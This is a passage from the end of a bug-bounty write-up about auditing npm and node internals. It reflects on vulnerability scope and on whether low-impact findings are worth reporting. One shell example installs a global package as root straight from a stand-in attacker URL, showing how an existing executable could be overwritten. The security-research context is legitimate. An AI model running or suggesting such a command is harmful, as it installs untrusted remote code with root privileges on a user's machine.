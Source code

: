 To secure software? Or money? The world can never be described in absolutes. I suppose the real answer is some mixture of the two, and people fall in various places on that spectrum. 

Perhaps this could be better illustrated with an example.  

We noticed another interesting entry in scope.
- Overwriting an executable that already exists with [a globally installed package](https://docs.npmjs.com/downloading-and-installing-packages-globally) if `--force` has not been set

After some correspondence with GitHub staff, we confirmed this was how the vulnerability scope was intended to be defined:

```sh
$ npm i -g yarn
$ npm i -g attacker-package
$ yarn # if we control yarn, its a vulnerability
```

It turns out that this is trivially achievable by installing from a URL.

```sh
$ sudo npm i -g https://attacker.com/package.tar.gz
```

However, this was also marked as a "low" impact item according to our engagement documentation, and we thought that it probably wasn't a serious concern. It seemed by design, and the use case for such a bug seemed extremely narrow. 

In the end, we chose not to report it. 

A report is an affirmation that a vulnerability exists. As bug bounty hunters we don't want to spam programs with low-impact pseudo-vulnerabilities. There's often a balance between reporting only real impactful issues and trying to simply maximize bounties. 

I think this also illustrates the importance of clearly defining scope items when creating private bug bounty programs. There's always room for ambiguity, and having additional ways to communicate - for example, there's a private GitHub bounty program Slack - is crucial for clearing up any confusion.

## Conclusion

Overall this engagement was quite enjoyable. We got to audit sections of node and npm internals which I - and I believe many others - assumed secure. 

Every day, we run countless lines of code but never consider who's responsible for auditing them. Is absolute security possible? 

Complexity breeds vulnerability; optimization demands compensation.
